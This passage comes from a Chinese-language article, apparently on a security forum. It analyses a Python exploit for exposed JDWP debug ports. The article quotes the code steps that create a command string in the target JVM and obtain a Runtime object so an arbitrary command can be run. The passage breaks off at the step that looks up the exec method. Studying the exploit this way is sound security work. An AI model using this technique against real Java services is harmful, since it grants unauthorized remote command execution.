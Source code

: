 接下来看第五部分代码，如果我们指定了要执行的命令，接下来就会调用runtime\_exec\_payload方法执行我们自定义的命令

```python
# 5. Now we can execute any code
if args.cmd:
    runtime_exec_payload(jdwp, tId, runtimeClass["refTypeId"], getRuntimeMeth["methodId"], args.cmd)
else:
    # by default, only prints out few system properties
    runtime_exec_info(jdwp, tId)
```

runtime\_exec\_payload方法定义如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-bca9ea0ef781167eb10acfc603388b931948fd4a.png)

首先看runtime\_exec\_payload方法的第一部分代码，调用了createstring方法，用于将要执行的命令在目标JVM中创建为字符串对象

```python
# 1. allocating string containing our command to exec()
cmdObjIds = jdwp.createstring( command )
if len(cmdObjIds) == 0:
    print ("[-] Failed to allocate command")
    return False
cmdObjId = cmdObjIds[0]["objId"]
print ("[+] Command string object created id:%x" % cmdObjId)
```

在createstring方法中会向目标JVM发送`(VirtualMachine, CreateString)`命令在目标 JVM 中创建指定字符串的字符串对象并返回其ID。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-5f9dc78cad26509fa9d43f43c786c73db570f441.png)

接下来看第二部分代码，调用了invokestatic方法

```python
# 2. use context to get Runtime object
buf = jdwp.invokestatic(runtimeClassId, threadId, getRuntimeMethId)
if buf[0] != chr(TAG_OBJECT):
    print ("[-] Unexpected returned type: expecting Object")
    return False
rt = jdwp.unformat(jdwp.objectIDSize, buf[1:1+jdwp.objectIDSize])

if rt is None:
    print "[-] Failed to invoke Runtime.getRuntime()"
    return False
print ("[+] Runtime.getRuntime() returned context id:%#x" % rt)
```

在invokestatic方法中会向目标JVM发送`(ClassType, InvokeMethod)`命令调用指定类的静态方法。这里是用于调用Runtime类的静态方法getRuntime方法，来获取一个Runtime实例对象。这里调用静态方法需要传入我们前面获取的Runtime类的refTypeId、threadID、getRuntime方法的methodId，如果调用成功就会返回Runtime对象ID

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-80823a29533a3c1897372760b5a8d956a48be7ed.png)

接下来看第三部分代码，调用了get\_method\_by\_name方法，用于从获取exec方法的信息
